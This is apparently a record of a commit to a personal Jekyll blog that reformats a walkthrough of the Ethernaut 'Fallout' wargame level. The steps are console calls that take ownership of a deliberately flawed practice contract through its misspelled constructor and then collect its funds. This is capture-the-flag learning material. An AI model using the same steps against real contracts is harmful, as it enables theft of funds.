

Before and after one commit to weippig/weippig.github.io, a Jekyll site: the page built from _posts/2022-08-24-ethernaut-2-fallout.md, in a window 1280 px wide and 1400 px high, scrolled down 1595 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
add one post  & fix

````diff
--- a/_posts/2022-08-24-ethernaut-2-fallout.md
+++ b/_posts/2022-08-24-ethernaut-2-fallout.md
@@ -59,9 +59,31 @@ contract Fallout {
 
 ## Writeup
 1. Get new instance
-2. `await contract.owner()` to check contract owner, it return address 0x0000000000000000000000000000000000000000.
-3. Use `await contract.allocatorBalance(YOUR_ADDRESS).then(v=>v.toString())` to check balance, it return zero.
-4. `await contract.Fal1out({ value: toWei("0.00001") })`
-5. Call function `allovatorBalance` again like step3, we can see out balance become 10000000000000 now.
-6. `await contract.collectAllocations()`
+2. Call the method
+    ``` solidity
+
+    await contract.owner()
+
+    ```
+    to check contract owner, it return address 0x0000000000000000000000000000000000000000.
+3. Call the method
+    ``` solidity
+
+    await contract.allocatorBalance(YOUR_ADDRESS).then(v=>v.toString())
+
+    ```
+    to check balance, it will return zero.
+4. Call the method
+    ``` solidity
+
+    await contract.Fal1out({ value: toWei("0.00001") })
+
+    ```
+5. Call method `allovatorBalance` again like step3, we can see out balance become 10000000000000 now.
+6. Call the method
+    ``` solidity
+
+    await contract.collectAllocations()
+
+    ```
 7. Submit instance ξ( ✿＞◡❛)
````
Also changed, not shown: _posts/2022-08-27-ethernaut-4-telephone.md (+9 -3 lines), _posts/2022-08-27-ethernaut-5-Token.md (+21 -4 lines), _posts/2022-08-28-ethernaut-delegate.md (added, +65 -0 lines).
